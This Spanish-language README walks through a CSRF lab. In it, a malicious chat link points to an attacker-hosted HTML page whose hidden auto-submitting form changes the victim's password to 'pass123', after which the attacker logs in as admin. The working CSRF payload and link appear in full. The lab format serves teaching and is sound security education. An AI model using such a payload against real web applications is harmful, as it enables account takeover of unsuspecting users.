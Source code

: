 ## 🚨 Cross-Site Request Forgery (CSRF-Lab)
- Aplicación vulnerable a **Cross-Site Request Forgery (CSRF)**, un tipo de ataque que hace que un usuario realice acciones no deseadas dentro de una aplicación web que ya le ha otorgado autenticación.
- Se trata de una ataque que hace uso de la ingeniería social para conseguir que el usuario víctima en cuestión pinche en enlaces que conlleven acciones desafortunadas para él. Si además el usuario víctima tiene privilegios en el sitio web, las consecuencias pueden llegar a ser bastante más graves.
- En concreto, este laboratorio contempla un sistema de gestión de empleados en el que estos pueden intercambiar mensajes internos mediante un chat general. El vector de ataque está en que si un empleado malintencionado introduce un enlace malicioso en uno de los mensajes, otro usuario (víctima) puede clicar en él y realizar acciones involuntarias en el sistema.

Vector de ataque completo:

Inicio de sesión como el usuario "julian":

![Inicio de sesión como julian](images/julian.png)

Enlace malicioso escrito en el chat
```html
<a href="http://192.168.1.61/pwned.html" target="_blank">Horas trabajadas</a>
```

![Estructura del enlace malicioso](images/chat1.png)
![Enlace malicioso insertado](images/chat2.png)

Posteriormente, el atacante se pone en escucha por el puerto 80 mediante un servidor con python:

![Servidor HTTP en escucha](images/escucha.png)

Html malicioso del atacante (archivo pwned.html), disponible en el servidor del atacante:

```html
<!DOCTYPE html>
<html>
    <body>
        <form action="http://csrf-lab:5000/change-password" method="POST">
            <input type="hidden" name="new" value="pass123" />
        </form>
        <script>
            document.forms[0].submit();
            setTimeout(function() {
                window.location.href = 'http://192.168.1.60:5015/chat';
            }, 100);
        </script>
    </body>
</html>
```

Cuando la víctima pulse en el enlace del chat, esta será redirigida a este html malicioso hosteado por el atacante. Este html hará una petición de cambio de contraseña de la cuenta de la víctima y rápidamente redirigirá al usuario de nuevo al chat (pero su contraseña ya se habrá actualizado).

Después de una breve espera, observamos que un usuario ha clicado en el enlace malicioso (ha caido en la trampa):

![Recibo peticiones en el servidor](images/escucha2.png)

Probamos con todos los usuarios hasta que iniciamos sesión con el usuario admin (este fue el usuario víctima del ataque) con la nueva contraseña actualizada, "pass123". Como podemos observar, este usuarios es privilegiado en la web en relación con el resto (puede ejecutar operaciones adicionales de gestión de usuarios):

![Inicio de sesión como admin](images/admin.png)

Es importante destacar, que en este laboratorio se ha simulado que existe un administrador revisando los mensajes por detrás a través de un BOT con selenium. Básicamente está programado para que cada minuto acceda a la página del chat e interactue con los mensajes (como lo haría un usuario real en una web de estas características).
